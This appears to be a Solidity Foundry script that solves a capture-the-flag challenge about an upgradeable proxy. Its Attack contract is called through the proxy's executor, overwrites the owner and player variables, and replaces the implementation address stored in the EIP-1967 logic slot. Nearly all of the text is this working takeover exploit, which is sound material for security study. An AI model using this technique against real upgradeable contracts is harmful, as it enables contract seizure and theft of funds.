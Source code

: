 ```solidity
    //     proxy = new Proxy(address(executor), player);
    //     executor = Executor(address(proxy));

    //     vm.deal(player, 1 ether);
    // }
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Proxy : ", address(proxy));
        bytes32 logic = vm.load(address(proxy), bytes32(uint256(0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc)));
        console.log("logic in Proxy", address(uint160(uint256(logic))));
        console.log("Proxy Owner: ", executor.owner());
        console.log("Player in Proxy: ", executor.player());
        console.log("Player : ", player);
        console.log("Player balance: ", player.balance);
        console.log("isSolved(): ", executor.isSolved());
        NewExecutor newExecutor = new NewExecutor();
        Attack attack = new Attack(address(address(newExecutor)), player);
        executor.execute(address(attack));
        console.log("Attack : ", address(attack));
        console.log("NewExecutor : ", address(newExecutor));
        logic = vm.load(address(proxy), bytes32(uint256(0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc)));
        console.log("logic in Proxy", address(uint160(uint256(logic))));
        // executor.initialize(player);
        console.log("Proxy Owner: ", executor.owner());
        console.log("Player in Proxy: ", executor.player());
        console.log("isSolved(): ", executor.isSolved());
        vm.stopBroadcast();
    }
}
contract Attack {
    struct AddressSlot {
        address value;
    }
    address public owner;
    address public player;
    address immutable newExecutor;
    address immutable playerplayer;
    constructor(address _newExecutor, address _player){
        newExecutor = _newExecutor;
        playerplayer = _player;
    }
    function exec() external {
        owner = address(0xdeadbeef);
        player = playerplayer;
        _getAddressSlot(0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc).value = newExecutor;
    }
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r.slot := slot
        }
    }
}

contract NewExecutor is Initializable{
    address public owner;
    address public player;
    function initialize(address _player) external initializer {
        owner = msg.sender;
        player = _player;
    }
```